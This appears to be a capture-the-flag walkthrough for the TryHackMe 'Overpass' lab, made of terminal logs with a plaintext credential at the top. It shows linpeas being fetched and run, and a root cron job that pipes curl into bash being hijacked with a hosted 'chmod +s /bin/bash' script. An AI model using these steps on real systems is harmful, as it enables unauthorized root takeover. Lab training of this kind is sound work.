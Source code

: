 `[{"name":"System","pass":"saydrawnlyingpicture"}]`

```
bibo318@parrot:~/CTFs/tryhackme/Overpass$ cp /usr/share/linpeas/linpeas.sh .
bibo318@parrot:~/CTFs/tryhackme/Overpass$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.134.43 - - [05/Oct/2020 17:42:39] "GET /linpeas.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
bibo318@parrot:~/CTFs/tryhackme/Overpass$
```

```
james@overpass-prod:~$ wget 10.8.106.222/linpeas.sh
--2020-10-05 15:42:40--  http://10.8.106.222/linpeas.sh
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 289937 (283K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh      100%[=====>] 283.14K  1.39MB/s    in 0.2s

2020-10-05 15:42:40 (1.39 MB/s) - ‘linpeas.sh’ saved [289937/289937]

james@overpass-prod:~$ ls
linpeas.sh  todo.txt  user.txt
james@overpass-prod:~$ chmod +x linpeas.sh
james@overpass-prod:~$ ./linpeas.sh
```

```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

```
bibo318@parrot:~/CTFs/tryhackme/Overpass$ mkdir -p www/downloads/src/
bibo318@parrot:~/CTFs/tryhackme/Overpass$ cd www/
bibo318@parrot:~/CTFs/tryhackme/Overpass/www$ echo -n 'chmod +s /bin/bash' > downloads/src/buildscript.sh
bibo318@parrot:~/CTFs/tryhackme/Overpass/www$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
